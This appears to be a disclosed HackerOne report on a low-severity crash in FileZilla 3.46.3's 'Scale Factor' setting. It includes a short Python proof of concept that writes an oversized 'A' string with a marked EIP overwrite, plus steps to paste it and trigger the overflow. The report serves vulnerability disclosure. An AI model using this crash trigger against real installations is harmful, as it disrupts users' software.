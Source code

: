 # FileZilla 3.46.3 - 'Scale factor' Buffer Overflow

## Report Details
- **Report ID**: 798301
- **URL**: https://hackerone.com/reports/798301
- **State**: Closed
- **Severity**: low
- **Submitted**: 2020-02-17T21:45:57.727Z
- **Disclosed**: 2020-11-21T18:19:42.483Z

## Reporter
- **Username**: ayson88
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: filezilla

## Vulnerability Information
## Summary:
FileZilla in has a problem in the "Scale Factor" field is vulnerable to a Buffer Over Flow attack or a denial attack. Adding random characters in an entry that must accept only Float input type values.

## Steps To Reproduce:
A python file of name generatepaste.py was generated for the generation of the chain that allows the overflow, which is the following:

buffer = "\x41" * 5000000
eip= "\x42" * 4
f = open ("generate.txt", "w")
f.write(buffer+eip)
f.close()

  1.- Run python code : python generatepaste.py
  2.- Open generate.txt and copy content to clipboard.
  3.- Open FileZilla.
  4.- Select the Edit menu and then Settings.
  5.- Find the Interface section and select Themes.
  6.- Paste Clipboard on "Scale Factor" three times.
  7.- Click in the icons.
  8.- BoF


## Supporting Material/References:
[list any additional material (e.g. screenshots, logs, etc.)]

  * [attachment / reference]
F719632

## Impact

An attacker can corrupt FileZilla applications and be a preamble to a much more severe attack.

## Attachments
- Captura.JPG

